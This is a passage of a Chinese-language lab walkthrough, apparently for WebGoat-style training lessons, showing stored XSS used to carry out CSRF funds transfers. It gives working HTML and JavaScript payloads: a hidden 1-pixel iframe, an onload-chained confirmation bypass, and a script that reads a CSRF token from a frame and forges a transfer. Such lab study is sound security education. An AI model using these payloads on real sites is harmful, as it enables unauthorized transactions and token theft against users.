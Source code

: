 就可以看到储存型XSS会出发出一个转账页面,如果想这个页面被被害者发现

```
<iframe src="attack?Screen=284&amp;menu=900&amp;transferFunds=5000" width="1" height="1"></iframe>

```

通过宽高设置成1像素,隐藏掉这个页面

Cross-Site Scripting (XSS)-CSRF Prompt By-Pass
----------------------------------------------

这个就是利用CSRF进行冒名操作转账,留下恶意代码如下

```
<iframe
    src="attack?Screen=282&menu=900&transferFunds=5000"
    id="myFrame" frameborder="1" marginwidth="0"
    marginheight="0" width="800" scrolling=yes height="300"
    onload="document.getElementById('frame2').src='attack?Screen=282&menu=900&transferFunds=CONFIRM';">
</iframe>

<iframe
    id="frame2" frameborder="1" marginwidth="0"
    marginheight="0" width="800" scrolling=yes height="300">
</iframe>

```

1.  第一个iframe是进行转账5000
2.  当第二个加载完毕,去获取第二个iframe执行转账确认按键
3.  然后再下边事先构造好"id=frame2"的第二个iframe

根据刚刚的文章讲,预防CSRF的一个有效手段就是Token,但是Token在管理不严的情况下也是可以被窃取的

Cross-Site Scripting (XSS)-
---------------------------

演示窃取Token后的CSRF

```
<script>
var tokensuffix;

function readFrame1()
{
    var frameDoc = document.getElementById("frame1").contentDocument;
    var form = frameDoc.getElementsByTagName("form")[0];
    tokensuffix = '&CSRFToken=' + form.CSRFToken.value;

    loadFrame2();
}

function loadFrame2()
{
    var testFrame = document.getElementById("frame2");
    testFrame.src="attack?Screen=278&menu=900&transferFunds=5000" + tokensuffix;
}
</script>

<iframe src="attack?Screen=278&menu=900&transferFunds=main"
    onload="readFrame1();"
    id="frame1" frameborder="1" marginwidth="0"
    marginheight="0" width="800" scrolling=yes height="300"></iframe>

<iframe id="frame2" frameborder="1" marginwidth="0"
    marginheight="0" width="800" scrolling=yes height="300"></iframe>

```